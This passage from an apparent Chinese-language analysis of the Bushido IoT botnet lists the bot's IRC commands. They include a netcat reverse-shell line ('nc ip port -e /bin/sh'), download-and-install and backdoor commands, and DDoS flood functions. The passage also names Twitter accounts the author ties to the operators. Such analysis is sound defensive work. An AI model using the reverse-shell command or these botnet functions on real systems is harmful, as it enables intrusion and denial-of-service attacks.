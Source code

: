 * HACKPKG: HackPkg is here! Install a bin, using http, no depends!
* VERSION : Requests version of client
* KILLALL : Kills all current packeting
* HELP : Displays this
* IRC: Sends this command to the server
* SH: Executes a command
* ISH: SH, interactive, sends to channel
* SHD: Executes a psuedo-daemonized command
* GETBB: Get a proper busybox
* INSTALL <http server/file_name> : Download & install a binary to /var/bin
* BASH: Execute commands using bash.
* BINUPDATE http:server/package : Update a binary in /var/bin via wget
* SCAN: Call the nmap wrapper script and scan with your opts.
* RSHELL: Equates to nohup nc ip port -e /bin/sh
* LOCKUP http:server : Kill telnet, d/l aes backdoor from, run that instead.
* GETSSH http:server/dropbearmulti : D/l, install, configure and start dropbear on port 30022.

### 恶意脚本拥有的指令
<span id="script_functionality"></span>

* mail [to] [from] [subject] [message]
* dns [host]
* rndnick
* raw [irc] [data]
* uname
* eval [php] [code]
* exec [command] [args]
* cmd [command] [args]
* udpflood [ip] [port] [time] [packet] [size]
* tcpconn [host] [port] [time]
* slowread [host] [port] [page] [sockets] [time]
* slowloris [host] [time]
* l7 method [host] [time]
* post [host] time
* head [host] [time]
* tcpflood [host] [port] [time]
* httpflood [host] [port] [time] [method] [url]
* proxyhttpflood [targetUrl(with http://)] [proxyListUrl] [time] [method]
* cloudflareflood [host] [port] [time] [method] [url] [postFields]
* ud.server [host] [port] [pass] [chan]

## 恶意样本背后的人
<span id="bad_actors"></span>

当我们连接上 IRC 服务器的时候会发现如下信息：

![](http://www.mien.in/2018/09/02/reversing-bushido-iot-botnet-by-zullsec/irc-botnet.png)

我在 twitter 上搜索以上关键字，结果发现了两个账号

1. [m4licious](https://twitter.com/m4licious_0sec)
2. [M1rOx](https://twitter.com/M1r0x__)

